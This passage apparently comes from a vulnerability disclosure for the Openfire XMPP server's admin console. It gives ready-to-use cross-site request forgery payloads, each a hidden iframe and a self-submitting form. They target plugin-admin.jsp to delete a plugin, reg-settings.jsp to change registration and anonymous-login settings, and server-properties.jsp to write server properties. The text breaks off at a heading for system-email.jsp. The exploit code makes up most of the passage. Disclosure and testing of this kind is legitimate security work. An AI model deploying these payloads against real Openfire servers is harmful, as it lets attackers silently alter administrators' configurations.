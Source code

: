 #### *plugin-admin.jsp* is vulerable to a CSRF attack.

The following HTML iframe command allows reproducing the attack against the Openfire *plugin-admin.jsp* page.

```
<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://OpenFireServerIP:9090/plugin-admin.jsp" method="get" target="csrf-frame" >
    <input type="text" name="deleteplugin" value="broadcast" >
</form>


<script>document.getElementById("csrf-form").submit()</script>
```

The following HTML iframe command allows reproducing the attack against the Openfire *reg-settings.jsp* page:

```
<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://OpenFireServerIP:9090/reg-settings.jsp" method="get" target="csrf-frame" >
    <input type="text" name="inbandEnabled" value="false" >
    <input type="text" name="canChangePassword" value="false" >
    <input type="text" name="anonLogin" value="false" >
    <input type="text" name="allowedIPs" value="0.0.0.0" >
    <input type="text" name="allowedAnonymIPs" value="0.0.0.0" >
    <input type="text" name="save" value="Save Settings" >
</form>


<script>document.getElementById("csrf-form").submit()</script>
```

#### *server-properties.jsp* is vulerable to a CSRF attack.

The following HTML iframe command allows reproducing the attack against the Openfire *server-properties.jsp* admin page.

```
<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://OpenFireServerIP:9090/server-properties.jsp" method="post" target="csrf-frame" >
    <input type="text" name="propName" value="test" >
    <input type="text" name="propValue" value="test" >
    <input type="text" name="encrypt" value=""false >
    <input type="text" name="save" value="Save Property" >
</form>

<script>document.getElementById("csrf-form").submit()</script>
```

#### *system-email.jsp* is vulerable to a CSRF attack.
